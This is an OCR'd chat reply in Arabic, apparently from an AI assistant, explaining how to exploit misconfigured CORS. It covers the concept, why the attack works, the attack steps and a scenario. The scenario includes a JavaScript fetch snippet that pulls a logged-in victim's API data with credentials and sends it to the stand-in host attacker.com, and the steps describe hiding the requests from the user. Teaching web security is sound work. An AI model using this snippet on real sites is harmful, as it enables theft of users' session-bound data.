 أعتذر على اللبس! فهمت الآن أنك تريد الشرح الكامل لـ **CORS Exploiting Misconfigured** مكتوبًا مباشرة في الشات بدون وضعه في ملف أو داخل علامة `<xaiArtifact>`، وبنفس الهيكلية المطلوبة (ما المقصود؟، لماذا يعمل؟، كيف يتم الاستغلال؟، السناريو، الخطوات العملية، وجميع المحاولات الممكنة) باللغة العربية. سأقدم الشرح الآن بشكل واضح ومنظم، مع الحفاظ على التفاصيل العملية والشاملة، وبتنسيق نصي عادي يناسب الشات، دون أي علامات أو تنسيقات ملفات.

---

## فهم استغلال إعدادات CORS الخاطئة (CORS Exploiting Misconfigured)

### ما المقصود؟
استغلال إعدادات CORS الخاطئة هو عملية استهداف التهيئة غير الصحيحة لسياسة Cross-Origin Resource Sharing (CORS)، وهي آلية أمان في المتصفحات تتحكم في كيفية السماح لنطاقات مختلفة بالوصول إلى موارد موقع ويب، مثل واجهات برمجية (APIs) أو بيانات المستخدم. تعتمد CORS على رؤوس HTTP مثل Access-Control-Allow-Origin لتحديد النطاقات المسموح لها. إذا كانت هذه الإعدادات ضعيفة (مثل السماح بجميع النطاقات باستخدام * أو قبول نطاقات غير موثوقة)، يمكن للمهاجم إنشاء صفحة ويب ضارة ترسل طلبات إلى الموقع المستهدف لسرقة بيانات حساسة (مثل أسماء المستخدمين أو الرموز) أو تنفيذ إجراءات غير مصرح بها (مثل تغيير كلمة المرور).

### لماذا يعمل؟
- إعدادات CORS غير صارمة: السماح بجميع النطاقات (Access-Control-Allow-Origin: *) أو نطاقات غير موثوقة يسمح لأي موقع بإرسال طلبات.
- تجاوز قيود المتصفح: سياسة Same-Origin Policy تمنع الطلبات عبر النطاقات، لكن إعدادات CORS الخاطئة تتيح تجاوز هذا الحظر.
- إرسال بيانات الجلسة: إذا سمح الخادم بإرسال ملفات تعريف الارتباط أو الرموز (مع Access-Control-Allow-Credentials: true)، يمكن للمهاجم استغلال جلسة المستخدم.
- عدم التحقق من رأس Origin: بعض الخوادم تقبل قيم Origin مزيفة أو تستخدم قوائم بيضاء ضعيفة تحتوي على نطاقات يمكن للمهاجم التحكم بها.
- الاعتماد على JavaScript: يمكن استخدام شيفرات JavaScript في صفحة ضارة لإرسال طلبات تلقائية باستخدام بيانات الجلسة المخزنة في المتصفح.

### كيف يتم الاستغلال؟
- يحدد المهاجم موقعًا أو واجهة برمجية بها إعدادات CORS ضعيفة (مثل السماح بـ * أو نطاقات غير موثوقة).
- ينشئ صفحة ويب ضارة تحتوي على شيفرة JavaScript (مثل fetch أو XMLHttpRequest) ترسل طلبات إلى الخادم المستهدف.
- تُصمم الشيفرة لاستخراج بيانات حساسة (مثل بيانات JSON من API) أو تنفيذ إجراءات (مثل إرسال طلب POST لتغيير الإعدادات).
- يُخدع المستخدم لزيارة الصفحة الضارة (عبر روابط تصيد أو إعلانات)، مما يؤدي إلى تنفيذ الطلبات باستخدام جلسة المستخدم.
- يراقب المهاجم الاستجابات:
  - نجاح (True): يتم استخراج البيانات أو تنفيذ الإجراء، وتُرسل النتائج إلى خادم المهاجم.
  - فشل (False): يتم حظر الطلب بسبب إعدادات CORS صارمة أو عدم وجود جلسة.
- تُصمم الشيفرة لتكون غير ملحوظة (مثل إرسال الطلبات في الخلفية) لتجنب اكتشاف المستخدم.

### السناريو
لنفترض أنك اكتشفت أن موقع https://example.com يحتوي على واجهة برمجية عند /api/user تُرجع بيانات حساسة (مثل اسم المستخدم والبريد الإلكتروني) عند إرسال طلب GET. باستخدام أداة مثل Burp Suite، تلاحظ أن الخادم يُرجع رأس Access-Control-Allow-Origin: * مع Access-Control-Allow-Credentials: true، مما يعني أن أي نطاق يمكنه الوصول إلى البيانات مع إرسال ملفات تعريف الارتباط. تقوم بإنشاء صفحة ضارة على نطاقك http://attacker.com تحتوي على الشيفرة التالية:

fetch('https://example.com/api/user', {credentials: 'include'})
  .then(response => response.json())
  .then(data => fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(data)}));

عندما يزور المستخدم صفحتك، يتم إرسال طلب إلى /api/user باستخدام ملفات تعريف الارتباط الخاصة به، وتُرسل البيانات المستخرجة إلى خادمك، مما يؤكد نجاح الهجوم.
